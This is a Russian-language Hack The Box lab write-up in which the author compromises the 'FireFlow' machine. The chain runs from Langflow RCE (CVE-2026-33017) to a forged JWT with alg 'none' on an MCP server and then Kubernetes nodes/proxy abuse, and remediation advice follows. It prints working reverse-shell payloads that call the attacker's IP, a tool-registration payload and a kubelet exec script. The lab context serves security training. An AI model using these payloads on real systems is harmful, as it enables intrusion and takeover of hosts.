

> **Дата:** 24.10.2026  
> **Целевой IP:** `10.129.244.214`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB FireFlow) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию Kubernetes-кластера и получению доступа к хосту под пользователем **root**. Основной вектор атаки — неаутентифицированный RCE в платформе Langflow (**CVE-2026-33017**), позволивший получить первоначальный доступ. Через переменные окружения были извлечены учётные данные пользователя `nightfall`. Далее был скомпрометирован MCP-сервер (Model Context Protocol) через подделку JWT-токена с алгоритмом `none`, что дало доступ к поду Kubernetes. Финальное повышение привилегий выполнено через злоупотребление правами сервисного аккаунта `nodes/proxy` и эксплуатацию привилегированного пода `node-exporter` с примонтированным корнем хоста.

**Ключевые уязвимости:**
- **CVE-2026-33017** — Unauthenticated RCE в Langflow (CVSS 9.6)
- **JWT None Algorithm Bypass** — Обход аутентификации MCP-сервера
- **Kubernetes RBAC Abuse (`nodes/proxy`)** — Доступ к kubelet API и выполнение команд в любом поде
- **Privileged Pod Escape** — Выход на хост через `hostPath` монтирование

---
## Разведка

Первоначальное сканирование выявило веб-сервер на порту 443 и SSH на 22. Анализ SSL-сертификата и содержимого страницы указал на виртуальные хосты `fireflow.htb` и `flow.fireflow.htb`.

```bash
nmap -sV -sS -A -Pn 10.129.244.214
```



_Сканирование портов и определение версий сервисов._

```bash
echo "10.129.244.214 fireflow.htb flow.fireflow.htb" | sudo tee -a /etc/hosts
```

_Добавление записей в локальный файл hosts._

При переходе на `fireflow.htb` обнаружена главная страница с ссылкой на публичный playground Langflow:

https://flow.fireflow.htb/playground/7d84d636-af65-42e4-ac38-26e867052c25



Проверка версии Langflow:

```bash
curl -k https://flow.fireflow.htb/api/v1/version
```



Версия **1.8.2** уязвима к **CVE-2026-33017** — неаутентифицированному RCE через эндпоинт `build_public_tmp`.

## Эксплуатация: Первоначальный доступ (CVE-2026-33017)

### Попытка использования готового эксплойта

Был найден эксплойт на [Sploitus](https://sploitus.com/):

```bash
git clone https://github.com/CerberusMrXi/Langflow-cve-2026-33017-exploit
```

Эксплойт подтвердил наличие уязвимости (вернул `HTTP 200 OK` и `job_id`), но не смог установить обратное соединение из-за асинхронной природы эндпоинта. Поэтому был использован ручной метод с `curl`.

### Ручная эксплуатация и получение шелла

Запуск слушателя:

```bash
nc -lvnp 4444
```

Создание JSON-пейлоада с вредоносным компонентом:

```bash
cat > exploit.json << 'EOF'
{
  "data": {
    "nodes": [{
      "id": "Exploit-002",
      "type": "genericNode",
      "position": {"x":0,"y":0},
      "data": {
        "id": "Exploit-002",
        "type": "ExploitComp",
        "node": {
          "template": {
            "code": {
              "type": "code",
              "required": true,
              "value": "import os\n\n_x = os.system(\"bash -c 'bash -i >& /dev/tcp/10.10.17.178/4444 0>&1'\")\n\nfrom lfx.custom.custom_component.component import Component\nfrom lfx.io import Output\nfrom lfx.schema.data import Data\n\nclass ExploitComp(Component):\n    display_name=\"X\"\n    outputs=[Output(display_name=\"O\",name=\"o\",method=\"r\")]\n    def r(self)->Data:\n        return Data(data={})",
              "name": "code"
            },
            "_type": "Component"
          },
          "description": "X",
          "base_classes": ["Data"],
          "display_name": "ExploitComp",
          "name": "ExploitComp",
          "outputs": [{"types":["Data"],"selected":"Data","name":"o","display_name":"O","method":"r","value":"__UNDEFINED__","cache":true}]
        }
      }
    }],
    "edges": []
  }
}
EOF
```

Отправка пейлоада:

```bash
curl -sk -X POST \
  'https://flow.fireflow.htb/api/v1/build_public_tmp/7d84d636-af65-42e4-ac38-26e867052c25/flow' \
  -H 'Content-Type: application/json' \
  -b 'client_id=attacker' \
  -d @exploit.json
```

Получен шелл под пользователем `www-data`.



## Пост-эксплуатация и повышение привилегий (User)

Дамп переменных окружения:

```bash
env
```



Найден пароль суперпользователя Langflow:

```bash
LANGFLOW_SUPERUSER_PASSWORD=n1ghtm4r3_b4_n1ghtf4ll
```

Пароль с высокой вероятностью переиспользуется для системного пользователя `nightfall`. Проверка:

```bash
su nightfall
```

Ввод пароля и чтение пользовательского флага:

```bash
cat ~/user.txt
```

**Флаг пользователя найден**
## Анализ MCP-сервера и подделка JWT

В домашней директории `nightfall` найден конфигурационный файл MCP-сервера:

```bash
cat ~/.mcp/config.json
```



Обнаружен сервер на `http://10.129.244.214:30080` с учётными данными и поддержкой JWT.
### Генерация поддельного JWT-токена

Уязвимость заключается в поддержке алгоритма `none`. Сервер не проверяет подпись, если в заголовке указано `"alg":"none"`.

Генерация токена с правами администратора:

```python
python3 -c '
import base64, json

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()

header = b64url(json.dumps({"alg":"none","typ":"JWT"}).encode())
payload = b64url(json.dumps({"sub":"attacker","role":"admin"}).encode())
print(f"{header}.{payload}.")
'
```



Полученный токен:

```python
eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiYXR0YWNrZXIiLCAicm9sZSI6ICJhZG1pbiJ9.
```

Сохранение токена в переменную:

```python
export ADMIN_JWT="eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiYXR0YWNrZXIiLCAicm9sZSI6ICJhZG1pbiJ9."
```



### Регистрация вредоносного инструмента (RCE в MCP-поде)

Создание JSON с обратным шеллом:

```bash
cat > mcp.json << 'EOF'
{
  "name": "shell",
  "description": "debug shell",
  "inputSchema": {"type":"object","properties":{}},
  "code": "import socket,os,pty\npid=os.fork()\nif pid>0:\n    import sys;sys.exit(0)\nos.setsid()\npid=os.fork()\nif pid>0:\n    import sys;sys.exit(0)\ns=socket.socket()\ns.connect((\"10.10.17.178\",4444))\n[os.dup2(s.fileno(),i) for i in(0,1,2)]\npty.spawn(\"/bin/sh\")"
}
EOF
```

Запуск слушателя и активация инструмента:

```bash
nc -lvnp 4444
```

```bash
curl -s -X POST http://localhost:30080/mcp \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $ADMIN_JWT" \
  -d '{"jsonrpc":"2.0","id":4,"method":"tools/call","params":{"name":"shell","arguments":{}}}'
```





Получен шелл в поде MCP с пользователем `mcp`.

## Повышение привилегий (Root) через Kubernetes

### Анализ прав сервисного аккаунта

В поде MCP примонтирован токен сервисного аккаунта:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

Проверка прав через `SelfSubjectRulesReview` показала наличие доступа к `nodes/proxy`.
### Поиск привилегированного пода

Запрос к kubelet API для получения списка подов:

```bash
curl -sk "https://10.129.244.214:10250/pods" -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" | python3 -c "
import sys, json
data = json.load(sys.stdin)
for item in data['items']:
    for c in item['spec']['containers']:
        csc = c.get('securityContext', {})
        vols = [v for v in item['spec'].get('volumes', []) if 'hostPath' in v]
        if csc.get('privileged') and vols:
            paths = [v['hostPath']['path'] for v in vols]
            print(f'[!] Namespace: {item[\"metadata\"][\"namespace\"]} | Pod: {item[\"metadata\"][\"name\"]} | Container: {c[\"name\"]} | Paths: {paths}')
"
```



**Найден под `prometheus-prometheus-node-exporter-nmntq` в неймспейсе `monitoring` с примонтированным корнем хоста.

### Выполнение команд через WebSocket (kubelet exec)

Скрипт для подключения к kubelet по WebSocket и выполнения команд:

```bash
cat > /tmp/evil.py << 'EOF'
import asyncio, ssl, sys, websockets, os

NODE = "10.129.244.214"
NS = "monitoring"
POD = "prometheus-prometheus-node-exporter-nmntq"
CNT = "node-exporter"
TOKEN = open('/var/run/secrets/kubernetes.io/serviceaccount/token').read().strip()

async def ws_exec(cmd_parts):
    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE

    args = "&".join(f"command={part}" for part in cmd_parts)
    url = f"wss://{NODE}:10250/exec/{NS}/{POD}/{CNT}?output=1&error=1&{args}"
    
    # Проверка версии библиотеки, чтобы избежать ошибки с заголовками
    try:
        ws = websockets.connect(url, ssl=ctx, additional_headers={"Authorization": f"Bearer {TOKEN}"}, subprotocols=["v4.channel.k8s.io"], open_timeout=10)
        async with ws as ws_conn:
            pass
    except TypeError:
        ws = websockets.connect(url, ssl=ctx, extra_headers={"Authorization": f"Bearer {TOKEN}"}, subprotocols=["v4.channel.k8s.io"], open_timeout=10)
        
    async with ws as ws_conn:
        try:
            while True:
                data = await asyncio.wait_for(ws_conn.recv(), timeout=5)
                if isinstance(data, bytes) and len(data) > 1:
                    sys.stdout.write(data[1:].decode("utf-8", errors="replace"))
                    sys.stdout.flush()
        except:
            pass

if __name__ == "__main__":
    asyncio.run(ws_exec(sys.argv[1].split()))
EOF
```

Запуск скрипта для чтения флага:

```bash
python3 /tmp/evil.py "cat /host/root/root/root.txt"
```



**Результат:** получен root-флаг.
## Рекомендации по устранению уязвимостей

- **Учетные данные:** Не хранить пароли в переменных окружения (`LANGFLOW_SUPERUSER_PASSWORD`). Использовать секреты Kubernetes или внешние хранилища (Vault).
- **Langflow (CVE-2026-33017):** Обновить до версии **1.9.0** или выше. Ограничить доступ к публичным playground и отключить возможность выполнения пользовательского кода без аутентификации.
- **JWT (None Algorithm):** Всегда проверять алгоритм подписи на сервере. Явно указывать допустимые алгоритмы (например, только `HS256` или `RS256`) и отклонять `none`.
- **Kubernetes RBAC:** Ограничить права сервисных аккаунтов. Убрать `nodes/proxy` для непривилегированных подов. Использовать `PodSecurityPolicies` для запрета привилегированных контейнеров и `hostPath` монтирований.